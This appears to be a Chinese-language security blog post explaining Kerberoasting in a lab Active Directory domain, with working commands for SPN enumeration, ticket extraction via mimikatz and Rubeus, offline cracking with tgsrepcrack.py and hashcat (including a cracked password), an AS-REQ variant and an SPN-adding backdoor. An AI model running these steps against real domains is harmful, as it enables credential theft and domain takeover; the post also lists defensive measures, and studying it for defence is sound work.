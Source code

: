 ```yaml
---
title: Kerberoasting 攻击
published: 2025-03-09 16:46:27
tags: [内网安全,域渗透]
category: 安全
draft: false
---
```


# Kerberoasting 攻击

> https://xz.aliyun.com/t/13697?time__1311=GqmxuD9DgiYeqGNDQi5BKuxiq4xf20kYRrD
> 

`Kerberoasting` 是一种允许攻击者窃取使用 `RC4` 加密的 `KRB_TGS` 票证的技术，以暴力破解应用程序服务 `HASH` 来获取其密码（重要是`RC4` 加密的）

`Kerberos` 使用所请求服务的 `NTLM` 哈希来加密给定服务主体名称 (SPN) 的 `KRB_TGS` 票证。当域用户向域控制器 `KDC` 发送针对已注册 `SPN` 的任何服务的 `TGS 票证`请求时，`KDC` 会生成 `KRB_TGS`

攻击者可以离线使用例如`hashcat`来暴力破解服务帐户的密码，因为该票证已使用服务帐户的 `NTLM 哈希`进行了加密。

**Kerberoasting攻击主要步骤如下**

> 1.发现SPN服务
> 
> 
> 2.使用工具向 SPN 请求 TGS 票据
> 
> 3.转储 .kirbi 或 ccache 或服务 HASH 的 TGS 票据
> 
> 4.将 .kirbi 或 ccache 文件转换为可破解格式
> 
> 5.使用hashcat等工具配合字典进行暴力破解
> 

**Kerberoasting**分为旧**Kerberoasting**攻击和新**Kerberoasting**攻击，多个步骤的攻击叫做旧 `kerberoasting` 攻击，单个步骤的攻击叫做新 `kerberoasting` 攻击

## kerberoasting 攻击的目的

**Kerberoasting** 的核心目的是**获取服务账户的密码或 NTLM 哈希**。通过这个密码，攻击者可以进一步提升权限，进行横向移动，甚至完全控制整个域

## 我们平常该找哪些SPN

- Web 服务 (`HTTP`)：用于攻击基于 IIS 的应用。
- SQL Server (`MSSQLSvc`)：允许攻击者访问数据库。
- 文件共享 (`CIFS`)：用于访问网络共享资源。

## 攻击前提

Kerberoasting攻击的主要前提是口令复杂度较低、 加密算法强度较弱

对抗Kerberoasting攻击也需从这2方面开展:

- 提高服务账号的口令复杂度；
- 尽量将域内的服务器系统升级至少至Windows 2008 系统，应用AES256高难度的加密算法.

## 基于mimikatz

1. 发现SPN
    
    使用`windows`下自带的`setspn.exe` ，找到有价值的SPN
    
    - 该SPN注册在域用户帐户(Users)下
    - 域用户账户的权限很高
    
    ```python
    PS C:\Users\a\Desktop\RiskySPN> setspn -T god.org -q */*
    正在检查域 DC=god,DC=org
    CN=OWA,OU=Domain Controllers,DC=god,DC=org
            ldap/owa.god.org/ForestDnsZones.god.org
            ldap/owa.god.org/DomainDnsZones.god.org
            NtFrs-88f5d2bd-b646-11d2-a6d3-00c04fc9b232/owa.god.org
            Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/owa.god.org
            DNS/owa.god.org
            GC/owa.god.org/god.org
            RestrictedKrbHost/owa.god.org
            RestrictedKrbHost/OWA
            HOST/OWA/GOD
            HOST/owa.god.org/GOD
            HOST/OWA
            HOST/owa.god.org
            HOST/owa.god.org/god.org
            E3514235-4B06-11D1-AB04-00C04FC2DCD2/fef2b3c9-4cec-410a-9d24-baba7891c01
    4/god.org
            ldap/OWA/GOD
            ldap/fef2b3c9-4cec-410a-9d24-baba7891c014._msdcs.god.org
            ldap/owa.god.org/GOD
            ldap/OWA
            ldap/owa.god.org
            ldap/owa.god.org/god.org
    CN=krbtgt,CN=Users,DC=god,DC=org
            kadmin/changepw
    CN=ROOT-TVI862UBEH,CN=Computers,DC=god,DC=org
            HOST/ROOT-TVI862UBEH
            HOST/root-tvi862ubeh.god.org
    CN=stu1,OU=dev,DC=god,DC=org
            TERMSRV/STU1
            TERMSRV/stu1.god.org
            RestrictedKrbHost/STU1
            HOST/STU1
            RestrictedKrbHost/STU1.god.org
            HOST/STU1.god.org
    CN=a,CN=Users,DC=god,DC=org
            web/stu1.god.org:80
    ```
    
    目标是：`web/stu1.god.org:80` ，注册在域用户`a`下,还不确定权限，但是可以先尝试
    
2. 使用mimikatz请求SPN服务并且导出ST票据
    
    ```python
    mimikatz.exe "kerberos::ask /target:web/stu1.god.org:80" "kerberos::list /export" exit
    ```
    
    ![image.png](image%2017.png)
    
    ![image.png](image%2018.png)
    
3. 对票据进行暴力破解（该脚本由https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py）
    
    ```python
    python tgsrepcrack.py pass.txt tgs.kirbi
    ```
    
    `pass.txt` 是密码字典，`tgs.kirbi`导出来的票据
    
    ```python
    python tgsrepcrack.py ../pass.txt ../2-40a00000-a@web\~stu1.god.org\~80-GOD.ORG.kirbi                                     
    
        USE HASHCAT, IT'S HELLA FASTER!!
    
    Cracking 1 tickets...
    found password for ticket 0:  File: ../2-40a00000-a@web~stu1.god.org~80-GOD.ORG.kirbi
    Successfully cracked all tickets
    ```
    
    破解成功，密码是`Aa20040422` ，需要字典强大
    

## 基于**Rubeus**

就是用 **Rubeus.exe,** 构建麻烦并且是用什么`Framework`版本构建的就要在什么环境使用

1. 发现`SPN`，提取`TGS`，转储为`HASH`到`hash.txt`
    
    ```python
    Rubeus.exe kerberoast /outfile:hash.txt
    ```
    
    ![image.png](image%2019.png)
    
2. 放到`hashcat`破解
    
    ```python
    hashcat -m 13100 -a 0  hash.txt pass.txt
    ```
    
    ![image.png](image%2020.png)
    
    主要还是看字典的强度
    

## 新型 Kerberoasting

https://www.semperis.com/blog/new-attack-paths-as-requested-sts/

> 我修改 Rubeus 以确定在AS-REQ 的**sname**中指定另一个 SPN 是否会导致 DC 为该 SPN 回复 ST。事实证明，答案是“是”（默认在初始请求的`sname`字段是`krbtgt`）
> 

并且在未开启预身份验证（`DONT_REQ_PREAUTH`）的用户尤其有效

例如使用`GetNPUsers.py` 找到不需要预身份验证的用户，然后在`AS_REQ`请求时的`sname`字段设置为服务的`SPN`即可获得`ST` (`jjones`用户当前不需要预身份验证)

![image.png](image%2021.png)

在`Rebeus`中也可以使用

## 后门利用

在我们取得了SPN的修改权限后，可以为指定的域用户添加一个SPN，这样可以随时获得该域用户的TGS，经过破解后获得明文口令